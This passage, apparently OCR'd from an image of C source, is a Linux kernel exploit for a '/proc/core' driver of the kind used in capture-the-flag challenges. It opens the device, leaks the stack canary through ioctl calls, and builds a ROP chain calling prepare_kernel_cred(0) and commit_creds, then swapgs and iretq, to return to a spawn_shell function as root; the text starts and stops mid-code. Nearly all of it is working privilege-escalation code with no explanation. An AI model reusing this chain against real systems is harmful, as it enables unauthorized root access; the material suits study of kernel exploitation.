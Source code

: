 ```c
		);
	puts("[*]status has been saved.");
}

void set_off(int fd, long long idx)
{
	printf("[*]set off to %ld\n",idx);
	ioctl(fd,0x6677889C,idx);
}

void core_read(int fd,char *buf)
{
	puts("[*]read to buf.");
	ioctl(fd,0x6677889B,buf);
}

void core_copy_func(int fd,long long size)
{
	printf("[*]copy from user with size: %ld\n",size);
	ioctl(fd,0x6677889A,size);
}

int main(){
	save_status();
	int fd = open("/proc/core",2);
	if(fd < 0)
	{
		puts("[*]open /proc/core error!");
		exit(0);
	}

	find_symbols();

	ssize_t offset = vmlinux_base - raw_vmlinux_base;

	set_off(fd,0x40);

	char buf[0x40] = {0};
	core_read(fd,buf);
	size_t canary = ((size_t *)buf)[0];
	printf("[+]canary: %p\n", canary);

	size_t rop[0x1000] = {0};

	int i;
	for(i = 0;i < 10;i++)
	{
		rop[i] = canary;
	}
	rop[i++] = 0xffffffff81000b2f + offset;  //pop rdi ; ret
	rop[i++] = 0;
	rop[i++] = prepare_kernel_cred;         // prepare_kernel_cred(0)

	rop[i++] = 0xffffffff81021e53 + offset; //pop rcx ; ret
	rop[i++] = commit_creds;
	rop[i++] = 0xffffffff811ae978 + offset; //mov rdi, rax; jmp rcx

	rop[i++] = 0xffffffff81a012da + offset; //swapgs ; popfq ; ret
	rop[i++] = 0;
	rop[i++] = 0xffffffff81050ac2 + offset; //iretq ; ret

	rop[i++] = (size_t)spawn_shell; //rip
	rop[i++] = user_cs;
```